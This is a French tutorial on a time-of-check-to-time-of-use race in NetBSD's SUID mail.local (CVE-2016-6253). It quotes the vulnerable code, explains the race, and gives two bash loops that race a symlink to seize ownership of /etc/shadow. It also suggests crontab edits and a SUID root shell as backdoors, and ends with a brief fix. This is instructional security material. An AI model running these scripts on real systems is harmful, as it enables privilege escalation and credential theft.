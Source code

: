 =====================================================
Time Of Check To Time Of Use et Privilege Escalations
=====================================================

Quelques notes
==============

Le but de cet article est de dérouler un cas concret de Privilege Escalation
basé sur une Race Condition à cause d'une Time Of Check To Time Of Use dans
**mail.local** sur NetBSD (CVE-2016-6253).

Il s'agit d'une adaptation de http://akat1.pl/?id=2 que je remercie
grandement pour son excellent article. Par soucis de pédagogie j'ai pris
quelques raccourcis concernant l'exploitation de cette vulnérabilité au
profit d'une plus grande clarté sur les processus généraux.

Bref, pour du code qui fonctionne allez voir son blog ; ici on explique
surtout comment réutiliser le concept ailleurs.

Et maintenant, voyons cette course !

.. image:: https://derpicdn.net/img/view/2012/1/15/299__safe_rainbow+dash_pinkie+pie_applejack_vector_wallpaper_pony_race_jet_running+of+the+leaves.png
    :width: 100%

.. raw:: pdf

    PageBreak

Le bug
======

mail.local
----------

**mail.local** est un programme gérant les mails utilisateurs dans NetBSD.
Il a la particularité d'être SUID root ce qui signifie qu'il est lancé avec
les droits super utilisateurs même s'il est lancé par un autre utilisateur.
Cela introduit quelques restrictions sur son utilisation (impossible de
lancer **ptrace** sur le processus ou d'employer **LD_PRELOAD** par exemple).

Cependant les processus SUID sont généralement considérés comme de gros
risques de sécurité car la moindre vulnérabilité peut donner une escalade de
privilèges. C'est une de ces vulnérabilités que nous allons voir maintenant.

La fonction deliver
-------------------

Voici_ la fonction qui contient la vulnérabilité.

.. _Voici : https://nxr.netbsd.org/xref/src/libexec/mail.local/mail.local.c

.. code:: c

    static int
    deliver(int fd, char *name, int lockfile)
    {
    	struct stat sb;
    	struct passwd pwres, *pw;
    	char pwbuf[1024];
    	int created, mbfd, nr, nw, off, rval=EX_OK, lfd=-1;
    	char biffmsg[100], buf[8*1024], path[MAXPATHLEN], lpath[MAXPATHLEN];
    	off_t curoff;
    ...
    	(void)snprintf(path, sizeof path, "%s/%s", _PATH_MAILDIR, name);

    	if (!(created = lstat(path, &sb)) &&
    	    (sb.st_nlink != 1 || S_ISLNK(sb.st_mode))) {
    		logwarn("%s: linked file", path);
    		return(EX_OSERR);
    	}
    ...
    	if ((mbfd = open(path, O_APPEND|O_WRONLY|O_EXLOCK,
    	    S_IRUSR|S_IWUSR)) < 0) {
    		if ((mbfd = open(path, O_APPEND|O_CREAT|O_WRONLY|O_EXLOCK,
    		    S_IRUSR|S_IWUSR)) < 0) {
    			logwarn("%s: %s", path, strerror(errno));
    			return(EX_OSERR);
    		}
    	}
    ...
    	if (created)
    		(void)fchown(mbfd, pw->pw_uid, pw->pw_gid);
    ...
    	(void)fsync(mbfd);		/* Don't wait for update. */
    	(void)close(mbfd);		/* Implicit unlock. */

.. raw:: pdf

    PageBreak

En pseudo-python:

.. code:: python

    _PATH_MAILDIR = "/var/mail"

    def deliver(fd, name, lockfile):
        path    = _PATH_MAILDIR + "/" + name
        created = not exists(path)

        # On vérifie que ce n'est pas un lien symbolique
        if exists(path) and is_link(path):
            print("Le fichier est un lien:", path)
            return

        # On tente de l'ouvrir ou de le créer le cas échéant
        # Cette fonction suivra un lien symbolique si présent
        mbfd = open(path, "w")

        if not mbfd:
            print("Une erreur à la création du fichier a eu lieu")

        # Si le fichier n'existait pas avant on change l'owner pour
        # l'utilisateur courant (le vrai, pas root)
        if created:
            chown(uid, gid)

        mbfd.close()

Cet extrait de code est assez clair et prend même la peine de vérifier que le
fichier est un lien avant de le donner à *root* pour éviter qu'un utilisateur
normal ne puisse créer un lien vers */etc/shadow* par exemple et ainsi se
l'accaparer.

Et donc ? Où est le problème ?
------------------------------

On fait une vérification certes, mais ce programme n'est pas seul à tourner
sur l'ordinateur... Que se passe-t-il si un utilisateur crée un lien
symbolique entre la vérification de l'existence du fichier et son ouverture ?

.. raw:: pdf

    PageBreak

Exploitation
============

Principe de base
----------------

Ceci est un exemple classique de Race Condition. Dans ce cas on parle d'un
TOCTTOU_ (Time Of Check To Time Of Use), c'est à dire d'une race condition
dérivant d'un décalage entre le moment où l'on effectue la vérification et le
moment où l'on exécute une action normalement protégée par cette
vérification.

.. _TOCTTOU : https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use

En pratique ça ressemble à ça:

::

    mail.local                                    | Attaquant
    --------------------------------------------------------------------------
    Vérifie l'existence - Le fichier n'existe pas |
                                                  | Crée symlink malicieux
    Ouvre le fichier - Suis le lien symbolique    |
    Change le propriétaire                        |
                                                  | \o/ Profit !

Le bug est particulièrement agréable ici car il ne demande aucune corruption
mémoire (lesquelles sont souvent inévitables dans ce type de bug), c'est
vraiment une pure Race Condition.

Bon, mais la fenêtre est assez serrée, ce n'est pas comme si on pouvais lui
demander gentiment de faire une pause pour nous laisser lancer un **ln**.

Certes, mais rien ne nous oblige à n'essayer qu'une fois...

La fenêtre est trop petite qu'ils disaient !
--------------------------------------------

Aucune fenêtre temporelle n'est trop petite pour être exploitée ! (Parole de
Sliders_).

.. _Sliders : https://en.wikipedia.org/wiki/Sliders

Il nous faut une boucle infinie créant le lien symbolique puis le supprimant
afin d'essayer qu'il ne soit présent qu'au moment du changement de
propriétaire. Lancer mail.local dans la même boucle serait trop lent, nous
avons besoins de faire cela dans un processus séparé. Il faut également noter
que l'on est obligé de créer le fichier lorsque le lien est supprimé car
**chown** n'est exécute que si le fichier n'existait pas lors du premier test.

Pour notre attaque nous allons créer un lien **/var/mail/user** vers
**/etc/shadow**. Voici le script bash qui contient notre boucle principale,
**exploit.sh**.

.. code:: bash

    STEALPATH="/etc/shadow"
    MAILBOX="/var/mail/user"

    while true ; do
        rm "$MAILBOX"
        ln -s "$STEALPATH" "$MAILBOX"
        rm "$MAILBOX"
        touch "$MAILBOX"

        if [ "$(stat "$STEALPATH" -c '%u')" -eq 0 ] ; then
            echo "Yeah ! Réussi !
            break
        fi
    done

.. raw:: pdf

    PageBreak

La seconde boucle dans **mailer.sh** :

.. code:: bash

    while true ; do
        echo x | /usr/libexec/mail.local usr 2> /dev/null
    done

Et à l'exécution :

.. code:: bash

    user@netbsd-dev$ mailer.sh &
    [3] 1234
    user@netbsd-dev$ exploit.sh
    Yeah ! Réussi !

Le processus ne prend normalement que quelques secondes pour terminer avec
succès.

Ok, et ensuite ?
----------------

On peut obtenir n'importe quel fichier du système, les candidats classiques
sont **/etc/shadow** et le **crontab**. En ajoutant une entrée au crontab on
peut amener root à nous donner périodiquement ses droits. On peut aussi se
servir de ceci pour créer un script SUID lançant un shell avec les droits
roots ce qui serait une porte dérobée appréciable. Les possibilités sont
nombreuses.

Comment corriger
================

Le mieux pour éviter les TOCTTOU est de valider le fichier le plus tard
possible, après l'avoir ouvert par exemple (mais bien évidemment avant de
l'utiliser).
